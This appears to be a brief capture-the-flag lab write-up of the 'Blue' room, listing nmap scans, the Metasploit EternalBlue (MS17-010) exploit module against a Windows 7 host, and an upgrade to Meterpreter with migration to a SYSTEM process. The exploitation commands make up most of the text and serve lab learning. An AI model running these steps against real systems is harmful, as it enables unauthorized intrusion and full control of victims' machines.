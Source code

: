 # Blue room

Scan and learn what exploit on windows 7 machine (Eternal Blue)

## what was done

Scan with nmap

```sh
nmap -Pn <ip>
nmap -A -T 5 <ip> -vv
nmap --script vuln <ip> -vv
```

gain access with metasploit

```sh
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <ip>
exploit
```

escalate privilage using:

```sh
use multi/manage/shell_to_meterpreter
set session <id_session>
```


## what was learnt

we don't need to open metasploit for inital sacaning

migrate to process NT AUTHORITY\SYSTEM


## tools

